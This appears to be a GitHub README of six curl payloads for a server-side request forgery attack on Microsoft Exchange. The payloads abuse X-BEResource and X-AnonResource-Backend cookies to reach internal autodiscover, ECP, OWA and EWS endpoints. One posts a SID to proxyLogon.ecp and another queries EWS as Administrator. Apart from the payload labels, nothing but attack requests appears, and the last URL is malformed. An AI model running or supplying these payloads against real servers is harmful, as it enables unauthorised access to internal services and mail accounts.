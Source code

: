 # autodiscover_SSRF

Payload A

curl -i -s -k -X $'POST' \
    -H $'Host: externaldomain.local' -H $'Content-Length: 370' -H $'Content-Type: text/xml' \
    -b $'X-BEResource=internalservername.domain.local/autodiscover/autodiscover.xml#~1' \
    --data-binary $'<?xml version=\"1.0\" encoding=\"utf-8\"?><Autodiscover xmlns=\"http://schemas.microsoft.com/exchange/autodiscover/outlook/requestschema/2006\"><Request><EMailAddress>Administrator@externaldomain.local</EMailAddress><AcceptableResponseSchema>http://schemas.microsoft.com/exchange/autodiscover/outlook/responseschema/2006a</AcceptableResponseSchema></Request></Autodiscover>' \
    $'https://externaldomain.local/ecp/favicon.ico'


Payload B

curl -i -s -k -X $'GET' \
    -H $'Host: localhost' \
    -b $'X-AnonResource-Backend=www.bbc.co.uk/#~1; X-AnonResource=true' \
    $'https://externaldomain.local/ecp/favicon.ico'

Payload C

curl -i -s -k -X $'POST' \
    -H $'Host: localhost' -H $'Content-Length: 370' -H $'Content-Type: text/xml' \
    -b $'X-BEResource=internalserver.domain.local/autodiscover/autodiscover.xml#~1941962753' \
    --data-binary $'<?xml version=\"1.0\" encoding=\"utf-8\"?><Autodiscover xmlns=\"http://schemas.microsoft.com/exchange/autodiscover/outlook/requestschema/2006\"><Request><EMailAddress>Administrator@externaldomain.local</EMailAddress><AcceptableResponseSchema>http://schemas.microsoft.com/exchange/autodiscover/outlook/responseschema/2006a</AcceptableResponseSchema></Request></Autodiscover>\x0d\x0a' \
    $'https://externaldomain.local/ecp/favicon.ico'

Payload D

curl -i -s -k -X $'GET' \
    -H $'Host: 127.0.0.1' -H $'User-Agent: Sk1dd13-02928910918' \
    -b $'X-AnonResource=true; X-AnonResource-Backend=localhost/ecp/default.flt?~3; X-BEResource=localhost/owa/auth/logon.aspx?~3' \
    $'https://externaldomain.local/owa/auth/x.js'

Payload E

curl -i -s -k -X $'POST' \
    -H $'Host: localhost' -H $'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.150 Safari/537.36' -H $'Content-Type: text/xml' -H $'Content-Length: 92' -H $'Connection: close' \
    -b $'X-BEResource=danger@sserver.internal.local:444/ecp/proxyLogon.ecp?a=~1942062522' \
    --data-binary $'<r at=\"Negotiate\"\x0d\x0aln=\"jane\"><s>S-1-5-21-1544262530-3153604567-1803344855-1148</s></r>\x0d\x0a\x0d\x0a' \
    $'https://server.external.local/ecp/z.js'
    
Payload F

curl -i -s -k -X $'POST' \
    -H $'Cache-Control: no-cache' -H $'Connection: Keep-Alive' -H $'Pragma: no-cache' -H $'Content-Type: text/xml' -H $'User-Agent: Microsoft Office/16.0 (Windows NT 10.0; Microsoft Outlook 16.0.13127; Pro)' -H $'Client-Request-Id: {11527508-55EA-4FFE-922F-91EC54F79180}' -H $'X-User-Identity: Administrator@externaldomain.local' -H $'X-MS-Negotiate: Server' -H $'X-Accept: application/json' -H $'Depth: 0' -H $'Content-Length: 426' -H $'Host: localhost' -H $'Authorization: Negotiate {NEGOTIATE PACKET NLTM}' \
    --data-binary $'<s:Envelope xmlns:s=\"http://schemas.xmlsoap.org/soap/envelope/\"><s:Header><RequestServerVersion Version=\"V2018_01_08\" xmlns=\"http://schemas.microsoft.com/exchange/services/2006/types\"/><MailboxCulture xmlns=\"http://schemas.microsoft.com/exchange/services/2006/types\">en-US</MailboxCulture></s:Header><s:Body><GetUnifiedGroupsSettings xmlns=\"http://schemas.microsoft.com/exchange/services/2006/messages\"/></s:Body></s:Envelope>' \
    $'https://pwnstar.pwndefend.comhttps://externaldomain.local/EWS/Exchange.asmx'
